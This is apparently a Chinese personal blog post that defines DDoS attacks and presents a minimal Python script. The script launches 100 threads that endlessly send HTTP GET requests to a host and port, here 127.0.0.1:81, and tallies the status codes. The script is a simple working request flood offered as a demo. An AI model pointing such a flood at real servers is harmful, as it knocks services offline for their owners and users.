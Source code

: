 ```yaml
---
title: dos（python极简版）
date: 2021-09-19 13:44:17
tags: [多线程请求,python]
categories: [后端,python]
---
```


## DDos介绍

### 定义

分布式拒绝服务（Distributed Denial of Service）攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动dos攻击，从而成倍地提高拒绝服务攻击的威力。通常该攻击方式利用目标系统网络服务功能缺陷或者直接消耗其系统资源，使得该目标系统无法提供正常的服务。


## 使用python模拟点对点的攻击

### 思路：

利用多线程的无限循环发起请求，统计结果以及抛出502错误

1. 创建类继承多线程
2. 使用init封装url
3. run方法传入url，以及错误处理
4. 统计数据和主方法启动

### 测试代码：

```python
# -*- coding = utf-8 -*-
# @Time : 2021/9/19 13:45
# @Author : FSAN
# @File : sendHttpRequest.py
# @Software : PyCharm


from threading import Thread
from requests import get

status = {"200": 0, "404": 0, "500": 0}


class sendHtpp(Thread):
    def __init__(self, HOST, PORT):
        global status
        self.url = f"{HOST}:{PORT}"
        super().__init__()

    def run(self) -> None:
        while True:
            sendHtpp.START(self.url)

    def START(url):
        try:
            resp = get(url).status_code
            status[str(resp)] += 1
            print(status)
        except:
            pass


if __name__ == '__main__':
    for i in range(100):
        s = sendHtpp("127.0.0.1", 81)
        s.start()
    s.join()
```

